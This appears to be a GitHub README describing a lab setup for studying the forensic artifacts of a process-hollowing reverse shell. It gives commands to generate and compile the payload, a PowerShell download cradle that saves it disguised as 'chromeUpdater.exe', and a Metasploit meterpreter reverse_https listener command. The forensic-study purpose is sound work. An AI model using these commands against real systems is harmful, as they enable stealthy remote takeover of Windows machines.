


# Investigating Process Hollowing Reverse Shells

This repository is meant to be a quick walkthrough to see the artifacts left by a process hollowing reverse shell. 

## Test Enviroment Set-up


### VM Set-up

So for the test enviroment I had three machines set up. Each one was set up with a bridged network adapter to my local network. 

In reality, you only need 1 Kali VM and 1 Windows VM. I like keeping my DEV and USER machines separate, so I can test on a relatively clean install of windows. 

* VM Links
    * [Windows VM Template](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)
    * [Kali VM Template](https://www.kali.org/get-kali/)


* Windows:
    * DEV
    * USER
* Linux:
    * Kali


### VM Installs

* User Box:
    * Install [Process Hacker](https://sourceforge.net/projects/processhacker/)
    * Install [SysInternals Tool Suite](https://download.sysinternals.com/files/SysinternalsSuite.zip)

* Kali Box:
    * Clone this Repository
        * `git clone https://github.com/Soups71/ProcessHollowing` 


## Generating the Process Hollowing Reverse Shell

On the Kali VM, 

```bash
cd ~/ProcessHollowing/ProcHollowing

chmod +x ./create_prochollow.sh

# Note that the Listener IP is the IP of your Kali VM.
./create_prochollow.sh <listener_IP> <listener_Port> <Key (ex. '2b')>

```

This will allow create a file "exploit.cs", this can then be compiled on your windows DEV machine.

On the Dev VM, Open Visual Studio.

* Select new project.
* Select "Console App (.NET Framework)"




* Paste the contents from `expolit.cs` on the Kali VM to the Visual Studio Project.
* Build the app for `x64` architecture and in `Release mode`. This code will not work for `x86` based architecture.



* Once built you can transfer the file to the user VM, or leave it on the same machine if you didn't set up a second windows VM. Below is a Powershell download cradle if you want to pull the reverse shell executable from your Kali host.
    * `Invoke-webrequest -uri http://<Kali IP>:8000/procHollowing.exe -outfile C:\Windows\tasks\chromeUpdater.exe`

## Setting up listener

On the Kali VM, you'll need to set up a listener. You'll have to change the `LPORT` if you selected a port other than `443`

```bash
sudo msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 0.0.0.0;set LPORT 443; set exitfunc thread;set EXITONSESSION FALSE;run -jz;"
```

## Disclaimer

This repository is intended for educational purposes only. The provided code, including the process hollowing reverse shell implementation, is meant to serve as a learning resource. The author does not endorse or encourage any misuse of this code for malicious purposes. Users are solely responsible for their actions, and any usage of the code outside the scope of ethical learning is strictly discouraged.